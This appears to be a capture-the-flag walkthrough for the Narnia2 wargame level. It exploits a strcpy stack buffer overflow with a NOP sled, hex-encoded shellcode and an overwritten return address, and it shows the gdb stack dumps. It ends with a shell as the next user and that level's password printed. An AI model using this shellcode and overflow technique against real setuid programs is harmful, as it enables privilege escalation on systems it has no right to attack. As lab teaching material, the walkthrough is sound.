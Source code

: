 # Narnia2 - Walkthrough

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

As it seems, we should put a shell code inside the buffer, 
surrounded by nops, and override the return address to the buffer itself.


AFter push:

(gdb) x $esp
0xffffd648:     0x002c307d

One of two options:
./narnia2 `python -c 'print "\x90"*20+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + 85*"\x90" +"\xb8\xd5\xff\xff"'`

./narnia2 `python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81" + 55*"\x90" +"\xb8\xd5\xff\xff"'`

Well - It's not working. Take a minute to think why.

Here's your answer - the stack is emptied after the program!
We shall go to the parameters section. not the local variables!



So let's change it:
```
narnia2@narnia:/narnia$ gdb --args ./narnia2 `python -c 'print "\x90"*75+"\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff
\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81" +"\x18\xd8\xff\xff"'`
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./narnia2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x804844e
(gdb) r
Starting program: /narnia/narnia2 \^1ɱ\!lukYSgi.qSkii0cbti0cjoSRT΁

Breakpoint 1, 0x0804844e in main ()
(gdb) x/200x $esp
0xffffd638:     0x00000000      0xf7e2a286      0x00000002      0xffffd6d4
0xffffd648:     0xffffd6e0      0x00000000      0x00000000      0x00000000
0xffffd658:     0xf7fc5000      0xf7ffdc0c      0xf7ffd000      0x00000000
0xffffd668:     0x00000002      0xf7fc5000      0x00000000      0x8d9aacd0
0xffffd678:     0xb772a0c0      0x00000000      0x00000000      0x00000000
0xffffd688:     0x00000002      0x08048350      0x00000000      0xf7fee710
0xffffd698:     0xf7e2a199      0xf7ffd000      0x00000002      0x08048350
0xffffd6a8:     0x00000000      0x08048371      0x0804844b      0x00000002
0xffffd6b8:     0xffffd6d4      0x080484a0      0x08048500      0xf7fe9070
0xffffd6c8:     0xffffd6cc      0xf7ffd920      0x00000002      0xffffd804
0xffffd6d8:     0xffffd814      0x00000000      0xffffd89d      0xffffd8b0
0xffffd6e8:     0xffffde6c      0xffffdea1      0xffffdeb0      0xffffdec1
0xffffd6f8:     0xffffded6      0xffffdee3      0xffffdeef      0xffffdef8
0xffffd708:     0xffffdf0b      0xffffdf2d      0xffffdf40      0xffffdf4c
0xffffd718:     0xffffdf63      0xffffdf73      0xffffdf87      0xffffdf92
0xffffd728:     0xffffdf9a      0xffffdfaa      0x00000000      0x00000020
0xffffd738:     0xf7fd7c90      0x00000021      0xf7fd7000      0x00000010
0xffffd748:     0x178bfbff      0x00000006      0x00001000      0x00000011
0xffffd758:     0x00000064      0x00000003      0x08048034      0x00000004
0xffffd768:     0x00000020      0x00000005      0x00000008      0x00000007
0xffffd778:     0xf7fd9000      0x00000008      0x00000000      0x00000009
0xffffd788:     0x08048350      0x0000000b      0x000036b2      0x0000000c
0xffffd798:     0x000036b2      0x0000000d      0x000036b2      0x0000000e
0xffffd7a8:     0x000036b2      0x00000017      0x00000001      0x00000019
0xffffd7b8:     0xffffd7eb      0x0000001a      0x00000000      0x0000001f
0xffffd7c8:     0xffffdfe8      0x0000000f      0xffffd7fb      0x00000000
0xffffd7d8:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd7e8:     0xee000000      0x16657f9b      0x8397b91b      0x348619f0
0xffffd7f8:     0x69f01504      0x00363836      0x00000000      0x72616e2f
0xffffd808:     0x2f61696e      0x6e72616e      0x00326169      0x90909090
0xffffd818:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd828:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd838:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd848:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd858:     0x90909090      0xeb909090      0xc9315e11      0x6c8021b1
0xffffd868:     0x8001ff0e      0xf67501e9      0xeae805eb      0x6bffffff
0xffffd878:     0x539a590c      0x712e6967      0x6b53e28a      0x63306969
0xffffd888:     0x30697462      0x8a6f6a63      0x545253e4      0x81cee28a
0xffffd898:     0xffffd818      0x5f434c00      0x3d4c4c41      0x555f6e65
0xffffd8a8:     0x54552e53      0x00382d46      0x435f534c      0x524f4c4f
---Type <return> to continue, or q <return> to quit---
0xffffd8b8:     0x73723d53      0x643a303d      0x31303d69      0x3a34333b
0xffffd8c8:     0x303d6e6c      0x36333b31      0x3d686d3a      0x703a3030
0xffffd8d8:     0x30343d69      0x3a33333b      0x303d6f73      0x35333b31
0xffffd8e8:     0x3d6f643a      0x333b3130      0x64623a35      0x3b30343d
0xffffd8f8:     0x303b3333      0x64633a31      0x3b30343d      0x303b3333
0xffffd908:     0x726f3a31      0x3b30343d      0x303b3133      0x696d3a31
0xffffd918:     0x3a30303d      0x333d7573      0x31343b37      0x3d67733a
0xffffd928:     0x343b3033      0x61633a33      0x3b30333d      0x743a3134
0xffffd938:     0x30333d77      0x3a32343b      0x333d776f      0x32343b34
0xffffd948:     0x3d74733a      0x343b3733      0x78653a34      0x3b31303d
```


Let's jump somewhere safe, like we wrote above:

```
narnia2@narnia:/narnia$ ./narnia2 `python -c 'print "\x90"*75+"\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0
c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81" +"\x38\xd8\xff\xff"'`
bash-4.4$ whoami
narnia3
bash-4.4$ cat /etc/narnia_pass/narnia3
vaequeezee
bash-4.4$
```

yeeessssssssss!!!!!!!!!!
:):))